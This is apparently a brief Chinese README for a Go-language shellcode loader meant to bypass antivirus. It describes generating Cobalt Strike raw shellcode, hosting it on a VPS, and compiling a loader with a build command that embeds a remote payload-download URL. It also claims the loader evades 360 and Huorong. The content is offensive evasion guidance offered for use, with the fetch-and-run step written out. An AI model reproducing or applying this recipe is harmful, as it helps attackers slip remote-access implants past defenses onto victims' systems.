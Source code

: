 # go加载器bypass
最近刚开始学习go语言写加载器，参考了几篇文章，利用-race和载荷分离远程下载shellcode编译

1、首先用cs生成raw的shellcode上传到自己的vps服务器上

2、编译：go build -ldflags "-s -w -X main.url=http://xx.xx.xx.xx/payload.bin" -o 1.exe -race shellcode.go

3、虽然VT查杀还是有14，但是截止到目前为止，360与火绒都能过

本人刚开始学习免杀，还很菜，此源码参考了https://github.com/fcre1938/goShellCodeByPassVT/blob/main/main.go,欢迎大佬提出建议
